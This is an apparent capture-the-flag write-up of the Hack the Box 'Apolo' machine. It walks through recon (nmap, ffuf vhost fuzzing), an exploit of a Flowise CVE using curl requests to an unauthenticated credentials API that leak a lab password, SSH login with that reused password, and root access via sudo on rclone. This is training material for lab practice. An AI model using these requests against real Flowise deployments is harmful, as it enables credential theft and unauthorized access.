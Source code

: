 Apolo is the first of the three full pwn challenges that we solved with *GCC* during the *Hack the Box University CTF 2024: Binary Badlands*

A full pwn challenge is composed of two flags that we have to find in order to complete it, the first one being the user flag and the second one being the root flag. We are given the ip address of a machine / box and we have to first get a RCE on the machine in order to have the user flag, and then privesc in order to get the root flag. 
## Reconnaissance 

```
Nmap scan report for apolo.htb (10.129.242.73)

Host is up (0.015s latency).

rDNS record for 10.129.242.73: apolo.htb

Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)+

| ssh-hostkey: 

|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)

|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)

|_  256 189d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)

80/tcp open  http    nginx 1.18.0 (Ubuntu)

|_http-title: Flowise - Low-code LLM apps builder

|_http-server-header: nginx/1.18.0 (Ubuntu)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_ker

```

We also check for vhost using ffuf : 

`ffuf -c -w /user/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "[http://$target/](about:blank)" -H "Host: FUZZ.$TARGET" -fc 301`

And we get a hit on a subdomain : `ai.apolo.htb`

Let’s add these two entries in our `/etc/hosts` and enumerate the two hosts : 
```
10.129.242.73 apolo.htb
10.129.242.73 ai.apolo.htb
```
  
The first webpage `apolo.htb` is just a full static website with nothing interesting, our directory fuzzing wasn’t very concluding so we decided to check the other vhost. 

Upon accessing `ai.apolo.htb` we are prompted with a login form for a flowiseai  instance. 

![Login form](/images/login_form.png)

Checking the version number of the flowingAI instance revealed that it was vulnerable to this CVE : [https://www.exploit-db.com/exploits/52001](https://www.exploit-db.com/exploits/52001)

After using the POC on the website we can confirm that it's indeed vulnerable
 
```
curl [http://ai.apolo.htb/Api/v1/credentials](http://ai.apolo.htb/Api/v1/credentials) [{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z"}`
```
## User flag

So we can now `curl [http://ai.apolo.htb/Api/v1/credentials6cfda83a-b055-4fd8-a040-57e5f1dae2eb](http://ai.apolo.htb/Api/v1/credentials6cfda83a-b055-4fd8-a040-57e5f1dae2eb)`

And retrieve some credentials : 

```
Username: lewis

Password: C0mpl3xi3Ty!_W1n3

Cluster: cluster0.mongodb.net

Database: myDatabase
```

We could then login onto the flowiseAI instance we thought we had to RCE from there, but a teammate of us pointed out that these credentials could be used to authenticate on the server using SSH. 

![Login form](/images/ssh_login.png)
And voilà : we have our user.flag in the usual location (/home/lewis/user.txt)

 ![Login form](/images/user_flag.png)
## Root flag

Now that we have a shell on the box, let’s check out what our user can execute on the machine : 

![Login form](/images/sudo_L.png)

We are allowed to execute /usr/bin/rclone with sudo permissions on the machine. 

When checking out the man and help page of the rclone command we have : 

`Rclone  is a command-line program to manage files on cloud storage.  It is a feature-rich alternative to cloud vendors web storage interfaces.`

![Login form](/images/rclone.png)

We can execute cat through rclone, and since we can execute rclone with root priviledges, we can simply : 

![Login form](/images/rootflag.png)